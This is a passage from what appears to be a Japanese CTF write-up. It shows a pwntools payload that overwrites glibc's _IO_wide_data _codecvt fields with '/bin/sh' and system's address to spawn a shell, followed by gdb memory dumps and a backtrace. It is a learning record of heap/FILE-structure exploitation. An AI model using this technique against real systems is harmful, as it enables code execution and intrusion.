 ```python
payload += 'A'*4
payload += 'B'*4
payload += 'C'*4
payload += 'D'*4
payload += 'A'*4
payload += 'B'*4
payload += "/bin/sh\x00"
payload += p64(system)
r.sendafter("🛑❓", encode(payload))
```
これが全部行くとこんな感じ
```
0x7f3b61a148a0 <_IO_wide_data_2+288>:	0x0000000000000000	0x414141410000000a
0x7f3b61a148b0 <_IO_wide_data_2+304>:	0x4343434342424242	0x4545454544444444
0x7f3b61a148c0 <_IO_wide_data_1>:	0x00007f3b61a149e8	0x00007f3b61a149e8
0x7f3b61a148d0 <_IO_wide_data_1+16>:	0x00007f3b61a149e8	0x00007f3b61a149e8
0x7f3b61a148e0 <_IO_wide_data_1+32>:	0x00007f3b61a149e8	0x00007f3b61a149e8
0x7f3b61a148f0 <_IO_wide_data_1+48>:	0x00007f3b61a149e8	0x00007f3b61a149e8
0x7f3b61a14900 <_IO_wide_data_1+64>:	0x4242424241414141	0x4444444443434343
0x7f3b61a14910 <_IO_wide_data_1+80>:	0x4242424241414141	0x4444444443434343
0x7f3b61a14920 <_IO_wide_data_1+96>:	0x4242424241414141	0x0068732f6e69622f
0x7f3b61a14930 <_IO_wide_data_1+112>:	0x00007f3b61678440	0x00007f3b616afcd0
```
構造体的にはこうなる。（違う日にやったら通らなくて、オフセットが４バイトずれてた。謎）
```
$ p _IO_wide_data_1
$1 = {
  _IO_read_ptr = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_read_end = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_read_base = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_write_base = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_write_ptr = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_write_end = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_buf_base = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_buf_end = 0x7f3b61a149e8 <_IO_wide_data_1+296> L"\n", 
  _IO_save_base = 0x4242424241414141 <error: Cannot access memory at address 0x4242424241414141>, 
  _IO_backup_base = 0x4444444443434343 <error: Cannot access memory at address 0x4444444443434343>, 
  _IO_save_end = 0x4242424241414141 <error: Cannot access memory at address 0x4242424241414141>, 
  _IO_state = {
    __count = 0x43434343, 
    __value = {
      __wch = 0x44444444, 
      __wchb = "DDDD"
    }
  }, 
  _IO_last_state = {
    __count = 0x41414141, 
    __value = {
      __wch = 0x42424242, 
      __wchb = "BBBB"
    }
  }, 
  _codecvt = {
    __codecvt_destr = 0x68732f6e69622f, 
    __codecvt_do_out = 0x7f3b61678440 <__libc_system>,
```
_IO_write_baseのアドレスを守りつつその下の__codecvtの頭と_do_outを書き換えられる。シェルは立ち上がったがまだオチがある。  
btがこれ
```
#0  0x00007f3b6170d687 in __GI___waitpid (pid=0x1c9, stat_loc=stat_loc@entry=0x7fff13dc70d8, options=options@entry=0x0)
    at ../sysdeps/unix/sysv/linux/waitpid.c:30
#1  0x00007f3b61678067 in do_system (line=<optimized out>) at ../sysdeps/posix/system.c:149
```